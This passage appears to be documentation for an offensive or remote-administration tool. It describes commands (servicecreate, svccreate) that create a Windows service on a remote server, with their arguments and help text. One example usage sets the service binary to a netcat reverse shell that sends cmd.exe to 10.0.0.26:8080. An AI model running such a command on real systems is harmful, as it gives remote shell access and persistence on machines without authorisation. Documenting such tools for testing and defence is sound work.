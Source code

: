 - **`name`**: Specify the name of the new service
  - Required: Yes

- **`binary_path`**: Specify the binary path of the new service
  - Required: Yes

- **`display_name`**: Specify the display name of the new service
  - Required: Yes

- **`start_type`**: Specify the start type of the new service
  - Choices: auto, demand, system
  - Default: `demand`
  - Required: Yes

---

## `servicecreate`

**Description:** Create a new service on the remote server

**Help:**
```
serviceadd [-h] -n NAME -b BINARY_PATH -d DISPLAY_NAME -s {auto,demand,system}
Create a new service on the remote server
```

**Example Usage:**
```
Example Usage: -b "C:\nc.exe 10.0.0.26 8080 -e cmd.exe"
```

### Arguments

- **`name`**: Specify the name of the new service
  - Required: Yes

- **`binary_path`**: Specify the binary path of the new service
  - Required: Yes

- **`display_name`**: Specify the display name of the new service
  - Required: Yes

- **`start_type`**: Specify the start type of the new service
  - Choices: auto, demand, system
  - Default: `demand`
  - Required: Yes

---

## `svccreate`

**Description:** Create a new service on the remote server

**Help:**
```
serviceadd [-h] -n NAME -b BINARY_PATH -d DISPLAY_NAME -s {auto,demand,system}
Create a new service on the remote server
```
